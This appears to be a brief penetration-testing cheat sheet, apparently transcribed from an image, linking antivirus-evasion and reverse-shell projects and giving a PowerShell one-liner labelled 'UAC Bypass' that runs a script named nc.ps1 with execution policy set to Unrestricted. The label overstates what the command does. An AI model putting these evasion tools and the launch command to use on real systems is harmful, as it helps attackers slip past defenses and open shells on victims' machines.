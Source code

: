AV
---

https://github.com/EgeBalci/Amber
https://github.com/Genetic-Malware/Ebowla
https://github.com/lesnuages/hershell


POWERSHELL
---
-(UAC Bypass)
```
PowerShell -NoProfile -ExecutionPolicy Unrestricted -Command "& {Start-Process PowerShell -ArgumentList '-NoProfile -ExecutionPolicy Unrestricted -File ""...\Temp\nc.ps1""'}"; 

```
https://github.com/padovah4ck/PSByPassCLM
